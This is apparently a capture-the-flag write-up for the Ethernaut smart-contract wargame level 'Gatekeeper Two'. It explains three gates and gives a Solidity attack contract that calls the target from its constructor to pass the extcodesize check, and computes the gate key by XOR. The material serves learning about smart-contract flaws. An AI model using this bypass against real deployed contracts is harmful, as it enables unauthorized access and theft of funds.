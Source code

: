Level 14: Gatekeeper Two

Objective:

Pass three new gates based on bit operations and code size.

Explanation:

Gate 1: Using a helper contract to interact with the contract

Gate 2: extcodesize(msg.sender) == 0 only works in constructor

Gate 3: Use the xor propert of a^b=c then a^c=b and manipulate the code.

🛠️ Solution:

contract Hack {
    constructor() {
        GatekeeperTwo gatekc = GatekeeperTwo(gatekeeper contracts address);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        gatekc.enter(key);
    }
}


Key Takeaways:

Code size is 0 during construction.

Use of XOR and typecasting.

